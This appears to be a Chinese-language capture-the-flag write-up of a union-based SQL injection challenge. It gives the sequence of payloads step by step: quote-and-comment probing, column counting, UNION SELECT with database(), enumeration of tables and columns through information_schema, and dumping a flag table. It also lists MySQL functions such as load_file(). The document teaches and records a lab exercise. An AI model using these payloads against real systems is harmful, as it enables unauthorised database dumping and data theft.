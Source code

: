 

*有人留下comments，想看的话就请给个comment id*

# 确定SQL语句
输入`1`试试：
*admin says: "The flag is stored in database."*

猜测可能是以下几种
```sql
select * from <table> where <id>=id
select * from <table> where <id>="id"
select * from <table> where <id>='id'
select * from <table> where (<id>=id)
```


输入
```sql
1'#
```
*admin says: "The flag is stored in database."*

可以查到，所以应该是
`select * from <table> where <id>='id'`

# 判断列数
输入
```sql
1' ordered by 3#
```
正常输出

输入
```sql
1' ordered by 4#
```
错误
所以应该有3列

# 确定输出格式
输入 
```sql
a' union select 1,2,3 #
```
其中已经确定没有`id='a'` 的条目
*2 says: "3"*

所以语句大概是
`{2} says: "{3}"`

# 爆库

这里附一个表
***一些有用的函数***
```
system_user() 系统用户名 
user() 用户名 
current_user() 当前用户名 
session_user()连接数据库的用户名 
database() 数据库名 
version() MYSQL数据库版本 
load_file() MYSQL读取本地文件的函数 
@@datadir 读取数据库路径 
@@basedir MYSQL 安装路径 
@@version_compile_os 操作系统
```
使用`concat()`进行字符串连接，使用`group_concat()`将多个项连接

输入
```sql
a'  union select 1,2,database() #
```
*2 says: "ctf"*

爆出数据库名"ctf"

有提示过flag在数据库里，现在找找"ctf"库还有什么表

***information_schema.tables的一些信息***

| 字段|含义 |
| --- | --- |
|Table_schema|数据表所属的数据库名|
|Table_name|表名称|

输入
```sql
a'  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctf' #
```
*2 says: "flag,user"*

查出有两个表："flag", "user"
flag应该在"flag"表里，再爆出"flag"表里的列名：
```sql
a'  union select 1,2,group_concat( column_name) from information_schema.columns where table_schema='ctf' and table_name='flag'#
```
*2 says: "flag"*

只有一个列：“flag"，直接查询该列获得flag
```sql
a'  union select 1,2,group_concat( flag) from ctf.flag#
```
*2 says: "NeSE{88db33cc40624a459d9227d92f4366bf}"*










